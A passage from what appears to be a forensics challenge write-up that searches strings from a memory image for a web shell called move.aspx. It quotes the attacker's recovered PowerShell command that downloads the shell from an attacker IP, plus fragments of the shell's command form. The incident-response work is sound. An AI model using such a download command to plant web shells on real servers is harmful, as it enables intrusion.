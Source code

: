 ## Memory

### Overview

I have a raw 4GB memory file, `I-like-to-27a787c5.vmem`. As the scenario says, I don’t have the necessary metadata to read it into a tool like Volatility and do real memory analysis. Still `strings` is a really nice way to get some clues about what’s going on. I can’t try to look at all the strings (there will be just too many), but I can search for interesting terms, which is why I leave this section for last, once I know a good bit about what is going on with the incident (though in real life I would be bouncing between sources).

I’m going to save the strings to a file so I don’t have to re-grep the entire file each time I want to search:

```

oxdf@hacky$ strings I-like-to-27a787c5.vmem > I-like-to-27a787c5.vmem.strings
oxdf@hacky$ strings -e l I-like-to-27a787c5.vmem >> I-like-to-27a787c5.vmem.strings 

```

### Web Shells

#### move.aspx

I’ll search for `move.aspx` with `grep` against the strings file. It can be helpful to pipe that into `sort -u` to get rid of duplicate strings. I’ll find things like the IIS log lines

One interesting thing that jumps out looks like the PowerShell command that downloads the webshell from the attacker IP:

```

wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

```

That’s a clear answer to the question of how the webshell was downloaded (matching what was in the console history).

There’s a couple lines that look like HTML:

```

        <filedep name="/move.aspx" />
<form name="cmd" method="post" action="./move.aspx" id="cmd">

```

I’ll see if I can get the line around that with `grep` using `-A` for lines after and `-B` for lines before, something like:

```

oxdf@hacky$ cat I-like-to-27a787c5.vmem.strings | grep '<form name="cmd" method="post" action="./move.aspx" id="cmd">' -A 40 -B 20 | less

```

